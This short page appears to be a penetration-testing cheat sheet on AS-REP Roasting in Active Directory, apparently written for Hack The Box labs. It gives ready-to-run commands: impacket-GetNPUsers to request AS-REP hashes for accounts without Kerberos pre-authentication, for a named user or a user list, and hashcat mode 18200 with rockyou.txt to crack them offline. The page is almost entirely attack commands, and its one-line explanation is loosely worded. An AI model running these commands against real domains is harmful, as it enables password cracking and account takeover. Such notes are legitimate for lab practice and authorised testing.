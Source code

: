 # AS-REP Roasting

## Introduction

<mark style="color:red;">AS-REPRoasting</mark> means that <mark style="background-color:yellow;">Kerberos Pre-Authentication is disabled on that user</mark>. You will also receive a TGT hash that can then be cracked. This can be accomplished with the script below.

* Check with the following command:

```python
impacket-GetNPUsers LICORDEBELLOTA.HTB/Kaorz -dc-ip <IP> -no-pass

# You will get a TGT hash. Save the hash in a file and crack the hash

hashcat -m 18200 hash rockyou.txt
```

Have a list of users?

```
impacket-GetNPUsers htb.local/ -no-pass -usersfile users
```
